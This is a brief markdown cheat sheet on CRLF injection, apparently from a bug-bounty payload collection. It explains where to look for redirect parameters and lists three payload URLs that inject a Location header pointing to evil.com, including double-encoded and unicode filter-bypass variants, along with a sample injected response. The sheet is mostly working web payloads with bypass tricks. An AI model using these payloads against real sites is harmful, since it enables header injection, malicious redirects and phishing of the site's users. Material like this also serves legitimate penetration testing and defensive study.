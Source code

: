 # CRLF Injection

### Where to find



It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).

### How to exploit



1. Basic payload

```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/
```

The response is

```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode

```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode

```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

\
